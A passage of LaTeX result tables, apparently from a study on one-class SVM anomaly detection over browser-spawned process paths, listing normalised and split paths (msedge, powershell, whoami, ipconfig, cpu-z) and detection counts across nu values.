		95  &    215 &       156 &        10 &               3 &              62 &         3 \\
		96  &    216 &       156 &        10 &               3 &              62 &         3 \\
		97  &    217 &       156 &        10 &               3 &              62 &         3 \\
		98  &    218 &       156 &        10 &               3 &              62 &         3 \\
		99  &    219 &       156 &        10 &               3 &              62 &         3 \\
		100 &    220 &       156 &        10 &               3 &              62 &         3 \\
		101 &    221 &       156 &        10 &               3 &              62 &         3 \\
		102 &    222 &       153 &        10 &               3 &              65 &         3 \\
		103 &    223 &       153 &        10 &               3 &              65 &         3 \\
		104 &    224 &       153 &        10 &               3 &              65 &         3 \\
		105 &    225 &       153 &        10 &               3 &              65 &         3 \\
		106 &    226 &       153 &        10 &               3 &              65 &         3 \\
		107 &    227 &       153 &        10 &               3 &              65 &         3 \\
		108 &    228 &       152 &        10 &               3 &              66 &         3 \\
		109 &    229 &       152 &        10 &               3 &              66 &         3 \\
		110 &    230 &       152 &        10 &               3 &              66 &         3 \\
		111 &    231 &       152 &        10 &               3 &              66 &         3 \\
		112 &    232 &       152 &        10 &               3 &              66 &         3 \\
		113 &    233 &       152 &        10 &               3 &              66 &         3 \\
		114 &    234 &       150 &        10 &               3 &              68 &         3 \\
		115 &    235 &       148 &        10 &               3 &              70 &         3 \\
		116 &    236 &       148 &        10 &               3 &              70 &         3 \\
		117 &    237 &       148 &        10 &               3 &              70 &         3 \\
		118 &    238 &        27 &        13 &               0 &             191 &         3 \\
		119 &    239 &         0 &        13 &               0 &             218 &         3 \\
		120 &    280 &       213 &         2 &              11 &               5 &         4 \\
		121 &    281 &       209 &         3 &              10 &               9 &         4 \\
		122 &    282 &       205 &         5 &               8 &              13 &         4 \\
		123 &    283 &       196 &         5 &               8 &              22 &         4 \\
		124 &    284 &       191 &         5 &               8 &              27 &         4 \\
		125 &    285 &       187 &         7 &               6 &              31 &         4 \\
		126 &    286 &       169 &         8 &               5 &              49 &         4 \\
		127 &    287 &       176 &        10 &               3 &              42 &         4 \\
		128 &    288 &       167 &        10 &               3 &              51 &         4 \\
		129 &    289 &       160 &         8 &               5 &              58 &         4 \\
		130 &    290 &       160 &        10 &               3 &              58 &         4 \\
		131 &    291 &       103 &        10 &               3 &             115 &         4 \\
		132 &    292 &        16 &        13 &               0 &             202 &         4 \\
		133 &    293 &        16 &        13 &               0 &             202 &         4 \\
		134 &    294 &        16 &        13 &               0 &             202 &         4 \\
		135 &    295 &        16 &        13 &               0 &             202 &         4 \\
		136 &    296 &        16 &        13 &               0 &             202 &         4 \\
		137 &    297 &        16 &        13 &               0 &             202 &         4 \\
		138 &    298 &        15 &        13 &               0 &             203 &         4 \\
		139 &    299 &        35 &        13 &               0 &             183 &         4 \\
		140 &    300 &        33 &        13 &               0 &             185 &         4 \\
		141 &    301 &        15 &        13 &               0 &             203 &         4 \\
		142 &    302 &        27 &        13 &               0 &             191 &         4 \\
		143 &    303 &        15 &        13 &               0 &             203 &         4 \\
		144 &    304 &        44 &        12 &               1 &             174 &         4 \\
		145 &    305 &        15 &        13 &               0 &             203 &         4 \\
		146 &    306 &        14 &        13 &               0 &             204 &         4 \\
		147 &    307 &        14 &        13 &               0 &             204 &         4 \\
		148 &    308 &        13 &        13 &               0 &             205 &         4 \\
		149 &    309 &        54 &        12 &               1 &             164 &         4 \\
		150 &    310 &        11 &        13 &               0 &             207 &         4 \\
		151 &    311 &        11 &        13 &               0 &             207 &         4 \\
		152 &    312 &        29 &        12 &               1 &             189 &         4 \\
		153 &    313 &        11 &        13 &               0 &             207 &         4 \\
		154 &    314 &        39 &        11 &               2 &             179 &         4 \\
		155 &    315 &        28 &        11 &               2 &             190 &         4 \\
		156 &    316 &        10 &        13 &               0 &             208 &         4 \\
		157 &    317 &        10 &        13 &               0 &             208 &         4 \\
		158 &    318 &         7 &        13 &               0 &             211 &         4 \\
		159 &    319 &         0 &        13 &               0 &             218 &         4 \\
		\bottomrule
	\end{tabular}		
\end{table}
   
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%PATHS

\begin{table}
	\centering
	\caption{Normalised process paths.}
	\label{id:tab:fullPaths}
	\begin{tabular}{ll}
		\toprule
		{} &                                                  0 \\
		\midrule
		0   &                                     /msedge/msedge \\
		1   &                                     /msedge/msedge \\
		2   &                                     /msedge/msedge \\
		3   &                                     /msedge/msedge \\
		4   &                                            /msedge \\
		5   &                                     /msedge/msedge \\
		6   &                                     /msedge/msedge \\
		7   &                                     /msedge/msedge \\
		8   &                                     /msedge/msedge \\
		9   &                                     /msedge/msedge \\
		10  &                                     /msedge/msedge \\
		11  &                                     /msedge/msedge \\
		12  &                                     /msedge/msedge \\
		13  &                                     /msedge/msedge \\
		14  &                                     /msedge/msedge \\
		15  &                                     /msedge/msedge \\
		16  &                                     /msedge/msedge \\
		17  &                                     /msedge/msedge \\
		18  &                                     /msedge/msedge \\
		19  &                                     /msedge/msedge \\
		20  &                                     /msedge/msedge \\
		21  &                                     /msedge/msedge \\
		22  &                                     /msedge/msedge \\
		23  &                                     /msedge/msedge \\
		24  &                                     /msedge/msedge \\
		25  &                                     /msedge/msedge \\
		26  &                                     /msedge/msedge \\
		27  &                                     /msedge/msedge \\
		28  &                                     /msedge/msedge \\
		29  &                                     /msedge/msedge \\
		30  &                                     /msedge/msedge \\
		31  &                                     /msedge/msedge \\
		32  &                                     /msedge/msedge \\
		33  &                                     /msedge/msedge \\
		34  &                                            /msedge \\
		35  &                                     /msedge/msedge \\
		36  &                                     /msedge/msedge \\
		37  &                                     /msedge/msedge \\
		38  &                                     /msedge/msedge \\
		39  &                                     /msedge/msedge \\
		40  &                                     /msedge/msedge \\
		41  &                                     /msedge/msedge \\
		42  &                                     /msedge/msedge \\
		43  &                                     /msedge/msedge \\
		44  &                                     /msedge/msedge \\
		45  &                                     /msedge/msedge \\
		46  &                                     /msedge/msedge \\
		47  &                                     /msedge/msedge \\
		48  &                                     /msedge/msedge \\
		49  &                                     /msedge/msedge \\
		50  &                                     /msedge/msedge \\
		51  &                                     /msedge/msedge \\
		52  &                                     /msedge/msedge \\
		53  &                                     /msedge/msedge \\
		54  &                                     /msedge/msedge \\
		55  &                                     /msedge/msedge \\
		56  &                                            /msedge \\
		57  &                                     /msedge/msedge \\
		58  &                                     /msedge/msedge \\
		59  &                                     /msedge/msedge \\
		60  &                                            /msedge \\
		61  &                                     /msedge/msedge \\
		62  &                                     /msedge/msedge \\
		63  &                                            /msedge \\
		64  &                                     /msedge/msedge \\
		65  &                                     /msedge/msedge \\
		66  &                                     /msedge/msedge \\
		67  &                                     /msedge/msedge \\
		68  &                                     /msedge/msedge \\
		69  &                                     /msedge/msedge \\
		70  &                                     /msedge/msedge \\
		71  &                                     /msedge/msedge \\
		72  &                                     /msedge/msedge \\
		73  &                                     /msedge/msedge \\
		74  &                                     /msedge/msedge \\
		75  &                                     /msedge/msedge \\
		76  &                                     /msedge/msedge \\
		77  &                                     /msedge/msedge \\
		78  &                          /msedge/msedge/powershell \\
		79  &                                     /msedge/msedge \\
		80  &                                     /msedge/msedge \\
		81  &                                     /msedge/msedge \\
		82  &                                     /msedge/msedge \\
		83  &                                     /msedge/msedge \\
		84  &                                     /msedge/msedge \\
		85  &                                     /msedge/msedge \\
		86  &                                     /msedge/msedge \\
		87  &                                     /msedge/msedge \\
		88  &                                     /msedge/msedge \\
		89  &                  /msedge/msedge/powershell/conhost \\
		90  &                                     /msedge/msedge \\
		91  &                                     /msedge/msedge \\
		92  &                                     /msedge/msedge \\
		93  &                                     /msedge/msedge \\
		94  &                                     /msedge/msedge \\
		95  &                                     /msedge/msedge \\
		96  &                                     /msedge/msedge \\
		97  &                                     /msedge/msedge \\
		98  &                                    /msedge/notepad \\
		99  &                                     /msedge/msedge \\
		100 &                                     /msedge/msedge \\
		101 &                                     /msedge/msedge \\
		102 &                                     /msedge/msedge \\
		103 &                                     /msedge/msedge \\
		104 &                                    /msedge/notepad \\
		105 &                                     /msedge/msedge \\
		106 &                                     /msedge/msedge \\
		107 &                                     /msedge/msedge \\
		108 &                                     /msedge/msedge \\
		109 &                                     /msedge/msedge \\
		110 &                                     /msedge/msedge \\
		111 &                                     /msedge/msedge \\
		112 &                                     /msedge/msedge \\
		113 &                 /msedge/msedge/powershell/ipconfig \\
		114 &                            /msedge/msedge/WerFault \\
		115 &                            /msedge/msedge/WerFault \\
		116 &                                            /msedge \\
		117 &                 /msedge/msedge/powershell/HOSTNAME \\
		118 &                   /msedge/msedge/powershell/whoami \\
		119 &                                     /msedge/msedge \\
		120 &                                     /msedge/msedge \\
		121 &                                            /msedge \\
		122 &                                     /msedge/msedge \\
		123 &                                     /msedge/msedge \\
		124 &                                     /msedge/msedge \\
		125 &                                     /msedge/msedge \\
		126 &                                     /msedge/msedge \\
		127 &                                     /msedge/msedge \\
		128 &                                     /msedge/msedge \\
		129 &                                     /msedge/msedge \\
		130 &                                     /msedge/msedge \\
		131 &                                     /msedge/msedge \\
		132 &                                     /msedge/msedge \\
		133 &                                     /msedge/msedge \\
		134 &                                     /msedge/msedge \\
		135 &                                     /msedge/msedge \\
		136 &                                     /msedge/msedge \\
		137 &                                     /msedge/msedge \\
		138 &                                     /msedge/msedge \\
		139 &                                     /msedge/msedge \\
		140 &                                     /msedge/msedge \\
		141 &                                     /msedge/msedge \\
		142 &                                     /msedge/msedge \\
		143 &                                            /msedge \\
		144 &                                     /msedge/msedge \\
		145 &                                     /msedge/msedge \\
		146 &                                     /msedge/msedge \\
		147 &                                     /msedge/msedge \\
		148 &                                     /msedge/msedge \\
		149 &                                     /msedge/msedge \\
		150 &                                     /msedge/msedge \\
		151 &                                     /msedge/msedge \\
		152 &                                     /msedge/msedge \\
		153 &                                     /msedge/msedge \\
		154 &                                     /msedge/msedge \\
		155 &                                     /msedge/msedge \\
		156 &                                     /msedge/msedge \\
		157 &                                     /msedge/msedge \\
		158 &                                     /msedge/msedge \\
		159 &                                     /msedge/msedge \\
		160 &                                     /msedge/msedge \\
		161 &                                     /msedge/msedge \\
		162 &                                     /msedge/msedge \\
		163 &                                     /msedge/msedge \\
		164 &                                     /msedge/msedge \\
		165 &                                     /msedge/msedge \\
		166 &                          /msedge/msedge/powershell \\
		167 &                                     /msedge/msedge \\
		168 &                                     /msedge/msedge \\
		169 &                                     /msedge/msedge \\
		170 &                                     /msedge/msedge \\
		171 &                                     /msedge/msedge \\
		172 &                                     /msedge/msedge \\
		173 &                                     /msedge/msedge \\
		174 &                                     /msedge/msedge \\
		175 &                                     /msedge/msedge \\
		176 &                                     /msedge/msedge \\
		177 &  /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/cpu-z\_1.96... \\
		178 &                                     /msedge/msedge \\
		179 &                                     /msedge/msedge \\
		180 &                                     /msedge/msedge \\
		181 &                                     /msedge/msedge \\
		182 &                                     /msedge/msedge \\
		183 &                                     /msedge/msedge \\
		184 &                                     /msedge/msedge \\
		185 &                                     /msedge/msedge \\
		186 &                                     /msedge/msedge \\
		187 &                                     /msedge/msedge \\
		188 &                                     /msedge/msedge \\
		189 &                                     /msedge/msedge \\
		190 &                                     /msedge/msedge \\
		191 &                                     /msedge/msedge \\
		192 &                                     /msedge/msedge \\
		193 &                                     /msedge/msedge \\
		194 &                                     /msedge/msedge \\
		195 &                                     /msedge/msedge \\
		196 &                  /msedge/msedge/powershell/conhost \\
		197 &        /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/notepad \\
		198 &                /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en \\
		199 &                                     /msedge/msedge \\
		200 &                                     /msedge/msedge \\
		201 &                                     /msedge/msedge \\
		202 &                                     /msedge/msedge \\
		203 &                                     /msedge/msedge \\
		204 &                                     /msedge/msedge \\
		205 &                                     /msedge/msedge \\
		206 &                                     /msedge/msedge \\
		207 &                                     /msedge/msedge \\
		208 &                                     /msedge/msedge \\
		209 &                                     /msedge/msedge \\
		210 &                                    /msedge/notepad \\
		211 &                                     /msedge/msedge \\
		212 &                                     /msedge/msedge \\
		213 &                                     /msedge/msedge \\
		214 &                                     /msedge/msedge \\
		215 &                                     /msedge/msedge \\
		216 &                                     /msedge/msedge \\
		217 &                                     /msedge/msedge \\
		218 &                                    /msedge/notepad \\
		219 &                                     /msedge/msedge \\
		220 &                                     /msedge/msedge \\
		221 &                                     /msedge/msedge \\
		222 &                                     /msedge/msedge \\
		223 &                              /msedge/cpu-z\_1.96-en \\
		224 &                                     /msedge/msedge \\
		225 &  /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/cpu-z\_1.96-en \\
		226 &                                     /msedge/msedge \\
		227 &                            /msedge/msedge/WerFault \\
		228 &                              /msedge/msedge/msedge \\
		229 &                              /msedge/msedge/msedge \\
		230 &                              /msedge/msedge/msedge \\
		\bottomrule
	\end{tabular}
\end{table}


\begin{table}
	\centering
	\caption{Performance of anomaly detection on path lengths.}
	\label{id:tab:pathLenOcSVM}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       210 &         5 &               5 &              11 \\
		1  &  0.050 &       210 &         5 &               5 &              11 \\
		2  &  0.075 &       210 &         5 &               5 &              11 \\
		3  &  0.100 &       206 &        10 &               0 &              15 \\
		4  &  0.125 &       206 &         9 &               1 &              15 \\
		5  &  0.150 &       206 &        10 &               0 &              15 \\
		6  &  0.175 &       206 &        10 &               0 &              15 \\
		7  &  0.200 &       206 &        10 &               0 &              15 \\
		8  &  0.225 &       206 &        10 &               0 &              15 \\
		9  &  0.250 &       206 &        10 &               0 &              15 \\
		10 &  0.275 &       206 &        10 &               0 &              15 \\
		11 &  0.300 &       206 &        10 &               0 &              15 \\
		12 &  0.325 &       206 &        10 &               0 &              15 \\
		13 &  0.350 &       206 &        10 &               0 &              15 \\
		14 &  0.375 &       206 &        10 &               0 &              15 \\
		15 &  0.400 &       206 &        10 &               0 &              15 \\
		16 &  0.425 &       206 &        10 &               0 &              15 \\
		17 &  0.450 &       206 &        10 &               0 &              15 \\
		18 &  0.475 &       206 &        10 &               0 &              15 \\
		19 &  0.500 &       206 &        10 &               0 &              15 \\
		20 &  0.525 &       206 &        10 &               0 &              15 \\
		21 &  0.550 &       206 &        10 &               0 &              15 \\
		22 &  0.575 &       206 &        10 &               0 &              15 \\
		23 &  0.600 &       206 &        10 &               0 &              15 \\
		24 &  0.625 &       206 &        10 &               0 &              15 \\
		25 &  0.650 &       206 &        10 &               0 &              15 \\
		26 &  0.675 &       206 &        10 &               0 &              15 \\
		27 &  0.700 &       206 &        10 &               0 &              15 \\
		28 &  0.725 &       206 &        10 &               0 &              15 \\
		29 &  0.750 &       206 &        10 &               0 &              15 \\
		30 &  0.775 &       206 &        10 &               0 &              15 \\
		31 &  0.800 &       206 &        10 &               0 &              15 \\
		32 &  0.825 &       206 &        10 &               0 &              15 \\
		33 &  0.850 &       206 &        10 &               0 &              15 \\
		34 &  0.875 &       206 &        10 &               0 &              15 \\
		35 &  0.900 &       206 &        10 &               0 &              15 \\
		36 &  0.925 &       206 &        10 &               0 &              15 \\
		37 &  0.950 &       206 &        10 &               0 &              15 \\
		38 &  0.975 &       206 &        10 &               0 &              15 \\
		39 &  1.000 &         0 &        10 &               0 &             221 \\
		\bottomrule
	\end{tabular}
\end{table}
	
\begin{table}
	\centering
	\caption{Split and processed paths.}
	\label{id:tab:splitPaths}
	\begin{tabular}{llllll}
		\toprule
		{} &       0 &              1 &              2 &              3 &              4 \\
		\midrule
		0   &  msedge &         msedge &                &                &                \\
		1   &  msedge &         msedge &                &                &                \\
		2   &  msedge &         msedge &                &                &                \\
		3   &  msedge &         msedge &                &                &                \\
		4   &  msedge &                &                &                &                \\
		5   &  msedge &         msedge &                &                &                \\
		6   &  msedge &         msedge &                &                &                \\
		7   &  msedge &         msedge &                &                &                \\
		8   &  msedge &         msedge &                &                &                \\
		9   &  msedge &         msedge &                &                &                \\
		10  &  msedge &         msedge &                &                &                \\
		11  &  msedge &         msedge &                &                &                \\
		12  &  msedge &         msedge &                &                &                \\
		13  &  msedge &         msedge &                &                &                \\
		14  &  msedge &         msedge &                &                &                \\
		15  &  msedge &         msedge &                &                &                \\
		16  &  msedge &         msedge &                &                &                \\
		17  &  msedge &         msedge &                &                &                \\
		18  &  msedge &         msedge &                &                &                \\
		19  &  msedge &         msedge &                &                &                \\
		20  &  msedge &         msedge &                &                &                \\
		21  &  msedge &         msedge &                &                &                \\
		22  &  msedge &         msedge &                &                &                \\
		23  &  msedge &         msedge &                &                &                \\
		24  &  msedge &         msedge &                &                &                \\
		25  &  msedge &         msedge &                &                &                \\
		26  &  msedge &         msedge &                &                &                \\
		27  &  msedge &         msedge &                &                &                \\
		28  &  msedge &         msedge &                &                &                \\
		29  &  msedge &         msedge &                &                &                \\
		30  &  msedge &         msedge &                &                &                \\
		31  &  msedge &         msedge &                &                &                \\
		32  &  msedge &         msedge &                &                &                \\
		33  &  msedge &         msedge &                &                &                \\
		34  &  msedge &                &                &                &                \\
		35  &  msedge &         msedge &                &                &                \\
		36  &  msedge &         msedge &                &                &                \\
		37  &  msedge &         msedge &                &                &                \\
		38  &  msedge &         msedge &                &                &                \\
		39  &  msedge &         msedge &                &                &                \\
		40  &  msedge &         msedge &                &                &                \\
		41  &  msedge &         msedge &                &                &                \\
		42  &  msedge &         msedge &                &                &                \\
		43  &  msedge &         msedge &                &                &                \\
		44  &  msedge &         msedge &                &                &                \\
		45  &  msedge &         msedge &                &                &                \\
		46  &  msedge &         msedge &                &                &                \\
		47  &  msedge &         msedge &                &                &                \\
		48  &  msedge &         msedge &                &                &                \\
		49  &  msedge &         msedge &                &                &                \\
		50  &  msedge &         msedge &                &                &                \\
		51  &  msedge &         msedge &                &                &                \\
		52  &  msedge &         msedge &                &                &                \\
		53  &  msedge &         msedge &                &                &                \\
		54  &  msedge &         msedge &                &                &                \\
		55  &  msedge &         msedge &                &                &                \\
		56  &  msedge &                &                &                &                \\
		57  &  msedge &         msedge &                &                &                \\
		58  &  msedge &         msedge &                &                &                \\
		59  &  msedge &         msedge &                &                &                \\
		60  &  msedge &                &                &                &                \\
		61  &  msedge &         msedge &                &                &                \\
		62  &  msedge &         msedge &                &                &                \\
		63  &  msedge &                &                &                &                \\
		64  &  msedge &         msedge &                &                &                \\
		65  &  msedge &         msedge &                &                &                \\
		66  &  msedge &         msedge &                &                &                \\
		67  &  msedge &         msedge &                &                &                \\
		68  &  msedge &         msedge &                &                &                \\
		69  &  msedge &         msedge &                &                &                \\
		70  &  msedge &         msedge &                &                &                \\
		71  &  msedge &         msedge &                &                &                \\
		72  &  msedge &         msedge &                &                &                \\
		73  &  msedge &         msedge &                &                &                \\
		74  &  msedge &         msedge &                &                &                \\
		75  &  msedge &         msedge &                &                &                \\
		76  &  msedge &         msedge &                &                &                \\
		77  &  msedge &         msedge &                &                &                \\
		78  &  msedge &         msedge &     powershell &                &                \\
		79  &  msedge &         msedge &                &                &                \\
		80  &  msedge &         msedge &                &                &                \\
		81  &  msedge &         msedge &                &                &                \\
		82  &  msedge &         msedge &                &                &                \\
		83  &  msedge &         msedge &                &                &                \\
		84  &  msedge &         msedge &                &                &                \\
		85  &  msedge &         msedge &                &                &                \\
		86  &  msedge &         msedge &                &                &                \\
		87  &  msedge &         msedge &                &                &                \\
		88  &  msedge &         msedge &                &                &                \\
		89  &  msedge &         msedge &     powershell &        conhost &                \\
		90  &  msedge &         msedge &                &                &                \\
		91  &  msedge &         msedge &                &                &                \\
		92  &  msedge &         msedge &                &                &                \\
		93  &  msedge &         msedge &                &                &                \\
		94  &  msedge &         msedge &                &                &                \\
		95  &  msedge &         msedge &                &                &                \\
		96  &  msedge &         msedge &                &                &                \\
		97  &  msedge &         msedge &                &                &                \\
		98  &  msedge &        notepad &                &                &                \\
		99  &  msedge &         msedge &                &                &                \\
		100 &  msedge &         msedge &                &                &                \\
		101 &  msedge &         msedge &                &                &                \\
		102 &  msedge &         msedge &                &                &                \\
		103 &  msedge &         msedge &                &                &                \\
		104 &  msedge &        notepad &                &                &                \\
		105 &  msedge &         msedge &                &                &                \\
		106 &  msedge &         msedge &                &                &                \\
		107 &  msedge &         msedge &                &                &                \\
		108 &  msedge &         msedge &                &                &                \\
		109 &  msedge &         msedge &                &                &                \\
		110 &  msedge &         msedge &                &                &                \\
		111 &  msedge &         msedge &                &                &                \\
		112 &  msedge &         msedge &                &                &                \\
		113 &  msedge &         msedge &     powershell &       ipconfig &                \\
		114 &  msedge &         msedge &       WerFault &                &                \\
		115 &  msedge &         msedge &       WerFault &                &                \\
		116 &  msedge &                &                &                &                \\
		117 &  msedge &         msedge &     powershell &       HOSTNAME &                \\
		118 &  msedge &         msedge &     powershell &         whoami &                \\
		119 &  msedge &         msedge &                &                &                \\
		120 &  msedge &         msedge &                &                &                \\
		121 &  msedge &                &                &                &                \\
		122 &  msedge &         msedge &                &                &                \\
		123 &  msedge &         msedge &                &                &                \\
		124 &  msedge &         msedge &                &                &                \\
		125 &  msedge &         msedge &                &                &                \\
		126 &  msedge &         msedge &                &                &                \\
		127 &  msedge &         msedge &                &                &                \\
		128 &  msedge &         msedge &                &                &                \\
		129 &  msedge &         msedge &                &                &                \\
		130 &  msedge &         msedge &                &                &                \\
		131 &  msedge &         msedge &                &                &                \\
		132 &  msedge &         msedge &                &                &                \\
		133 &  msedge &         msedge &                &                &                \\
		134 &  msedge &         msedge &                &                &                \\
		135 &  msedge &         msedge &                &                &                \\
		136 &  msedge &         msedge &                &                &                \\
		137 &  msedge &         msedge &                &                &                \\
		138 &  msedge &         msedge &                &                &                \\
		139 &  msedge &         msedge &                &                &                \\
		140 &  msedge &         msedge &                &                &                \\
		141 &  msedge &         msedge &                &                &                \\
		142 &  msedge &         msedge &                &                &                \\
		143 &  msedge &                &                &                &                \\
		144 &  msedge &         msedge &                &                &                \\
		145 &  msedge &         msedge &                &                &                \\
		146 &  msedge &         msedge &                &                &                \\
		147 &  msedge &         msedge &                &                &                \\
		148 &  msedge &         msedge &                &                &                \\
		149 &  msedge &         msedge &                &                &                \\
		150 &  msedge &         msedge &                &                &                \\
		151 &  msedge &         msedge &                &                &                \\
		152 &  msedge &         msedge &                &                &                \\
		153 &  msedge &         msedge &                &                &                \\
		154 &  msedge &         msedge &                &                &                \\
		155 &  msedge &         msedge &                &                &                \\
		156 &  msedge &         msedge &                &                &                \\
		157 &  msedge &         msedge &                &                &                \\
		158 &  msedge &         msedge &                &                &                \\
		159 &  msedge &         msedge &                &                &                \\
		160 &  msedge &         msedge &                &                &                \\
		161 &  msedge &         msedge &                &                &                \\
		162 &  msedge &         msedge &                &                &                \\
		163 &  msedge &         msedge &                &                &                \\
		164 &  msedge &         msedge &                &                &                \\
		165 &  msedge &         msedge &                &                &                \\
		166 &  msedge &         msedge &     powershell &                &                \\
		167 &  msedge &         msedge &                &                &                \\
		168 &  msedge &         msedge &                &                &                \\
		169 &  msedge &         msedge &                &                &                \\
		170 &  msedge &         msedge &                &                &                \\
		171 &  msedge &         msedge &                &                &                \\
		172 &  msedge &         msedge &                &                &                \\
		173 &  msedge &         msedge &                &                &                \\
		174 &  msedge &         msedge &                &                &                \\
		175 &  msedge &         msedge &                &                &                \\
		176 &  msedge &         msedge &                &                &                \\
		177 &  msedge &  cpu-z\_1.96-en &  cpu-z\_1.96-en &  cpu-z\_1.96-en &  cpu-z\_1.96-en \\
		178 &  msedge &         msedge &                &                &                \\
		179 &  msedge &         msedge &                &                &                \\
		180 &  msedge &         msedge &                &                &                \\
		181 &  msedge &         msedge &                &                &                \\
		182 &  msedge &         msedge &                &                &                \\
		183 &  msedge &         msedge &                &                &                \\
		184 &  msedge &         msedge &                &                &                \\
		185 &  msedge &         msedge &                &                &                \\
		186 &  msedge &         msedge &                &                &                \\
		187 &  msedge &         msedge &                &                &                \\
		188 &  msedge &         msedge &                &                &                \\
		189 &  msedge &         msedge &                &                &                \\
		190 &  msedge &         msedge &                &                &                \\
		191 &  msedge &         msedge &                &                &                \\
		192 &  msedge &         msedge &                &                &                \\
		193 &  msedge &         msedge &                &                &                \\
		194 &  msedge &         msedge &                &                &                \\
		195 &  msedge &         msedge &                &                &                \\
		196 &  msedge &         msedge &     powershell &        conhost &                \\
		197 &  msedge &  cpu-z\_1.96-en &  cpu-z\_1.96-en &        notepad &                \\
		198 &  msedge &  cpu-z\_1.96-en &  cpu-z\_1.96-en &                &                \\
		199 &  msedge &         msedge &                &                &                \\
		200 &  msedge &         msedge &                &                &                \\
		201 &  msedge &         msedge &                &                &                \\
		202 &  msedge &         msedge &                &                &                \\
		203 &  msedge &         msedge &                &                &                \\
		204 &  msedge &         msedge &                &                &                \\
		205 &  msedge &         msedge &                &                &                \\
		206 &  msedge &         msedge &                &                &                \\
		207 &  msedge &         msedge &                &                &                \\
		208 &  msedge &         msedge &                &                &                \\
		209 &  msedge &         msedge &                &                &                \\
		210 &  msedge &        notepad &                &                &                \\
		211 &  msedge &         msedge &                &                &                \\
		212 &  msedge &         msedge &                &                &                \\
		213 &  msedge &         msedge &                &                &                \\
		214 &  msedge &         msedge &                &                &                \\
		215 &  msedge &         msedge &                &                &                \\
		216 &  msedge &         msedge &                &                &                \\
		217 &  msedge &         msedge &                &                &                \\
		218 &  msedge &        notepad &                &                &                \\
		219 &  msedge &         msedge &                &                &                \\
		220 &  msedge &         msedge &                &                &                \\
		221 &  msedge &         msedge &                &                &                \\
		222 &  msedge &         msedge &                &                &                \\
		223 &  msedge &  cpu-z\_1.96-en &                &                &                \\
		224 &  msedge &         msedge &                &                &                \\
		225 &  msedge &  cpu-z\_1.96-en &  cpu-z\_1.96-en &  cpu-z\_1.96-en &                \\
		226 &  msedge &         msedge &                &                &                \\
		227 &  msedge &         msedge &       WerFault &                &                \\
		228 &  msedge &         msedge &         msedge &                &                \\
		229 &  msedge &         msedge &         msedge &                &                \\
		230 &  msedge &         msedge &         msedge &                &                \\
		\bottomrule
	\end{tabular}		
\end{table}

\begin{table}
	\centering
	\caption{Results of anomaly detection on DirtyCat encoded paths.}
	\label{id:tab:ocsvmOnDirtyCatBad}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       207 &         0 &              13 &              11 \\
		1  &  0.050 &        48 &         9 &               4 &             170 \\
		2  &  0.075 &         8 &        11 &               2 &             210 \\
		3  &  0.100 &         0 &        11 &               2 &             218 \\
		4  &  0.125 &         0 &        11 &               2 &             218 \\
		5  &  0.150 &         0 &        11 &               2 &             218 \\
		6  &  0.175 &         0 &        11 &               2 &             218 \\
		7  &  0.200 &         0 &        11 &               2 &             218 \\
		8  &  0.225 &         0 &        11 &               2 &             218 \\
		9  &  0.250 &         0 &        11 &               2 &             218 \\
		10 &  0.275 &         0 &        11 &               2 &             218 \\
		11 &  0.300 &         0 &        11 &               2 &             218 \\
		12 &  0.325 &         0 &        11 &               2 &             218 \\
		13 &  0.350 &         0 &        11 &               2 &             218 \\
		14 &  0.375 &        15 &        10 &               3 &             203 \\
		15 &  0.400 &         0 &        11 &               2 &             218 \\
		16 &  0.425 &         0 &        11 &               2 &             218 \\
		17 &  0.450 &         0 &        11 &               2 &             218 \\
		18 &  0.475 &         0 &        11 &               2 &             218 \\
		19 &  0.500 &        20 &         9 &               4 &             198 \\
		20 &  0.525 &         0 &        11 &               2 &             218 \\
		21 &  0.550 &         0 &        11 &               2 &             218 \\
		22 &  0.575 &         0 &        11 &               2 &             218 \\
		23 &  0.600 &         0 &        11 &               2 &             218 \\
		24 &  0.625 &         0 &        11 &               2 &             218 \\
		25 &  0.650 &         0 &        11 &               2 &             218 \\
		26 &  0.675 &         0 &        11 &               2 &             218 \\
		27 &  0.700 &         0 &        11 &               2 &             218 \\
		28 &  0.725 &         0 &        13 &               0 &             218 \\
		29 &  0.750 &       140 &         5 &               8 &              78 \\
		30 &  0.775 &         0 &        13 &               0 &             218 \\
		31 &  0.800 &         0 &        13 &               0 &             218 \\
		32 &  0.825 &         0 &        13 &               0 &             218 \\
		33 &  0.850 &         0 &        13 &               0 &             218 \\
		34 &  0.875 &         0 &        13 &               0 &             218 \\
		35 &  0.900 &         0 &        13 &               0 &             218 \\
		36 &  0.925 &         0 &        13 &               0 &             218 \\
		37 &  0.950 &         0 &        13 &               0 &             218 \\
		38 &  0.975 &         0 &        13 &               0 &             218 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table}
	
\begin{table}
	\centering
	\caption{Results of improved anomaly detection on DirtyCat encoded paths.}
	\label{id:tab:ocsvmOnDirtyCatGood}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       203 &         1 &              12 &              15 \\
		1  &  0.050 &       198 &         3 &              10 &              20 \\
		2  &  0.075 &       188 &         3 &              10 &              30 \\
		3  &  0.100 &       165 &         5 &               8 &              53 \\
		4  &  0.125 &        19 &         8 &               5 &             199 \\
		5  &  0.150 &         0 &        13 &               0 &             218 \\
		6  &  0.175 &         0 &        13 &               0 &             218 \\
		7  &  0.200 &         0 &        13 &               0 &             218 \\
		8  &  0.225 &         0 &        13 &               0 &             218 \\
		9  &  0.250 &         0 &        13 &               0 &             218 \\
		10 &  0.275 &         0 &        13 &               0 &             218 \\
		11 &  0.300 &         0 &        13 &               0 &             218 \\
		12 &  0.325 &         0 &        13 &               0 &             218 \\
		13 &  0.350 &         0 &        13 &               0 &             218 \\
		14 &  0.375 &         0 &        13 &               0 &             218 \\
		15 &  0.400 &         0 &        13 &               0 &             218 \\
		16 &  0.425 &         0 &        13 &               0 &             218 \\
		17 &  0.450 &         0 &        13 &               0 &             218 \\
		18 &  0.475 &         0 &        13 &               0 &             218 \\
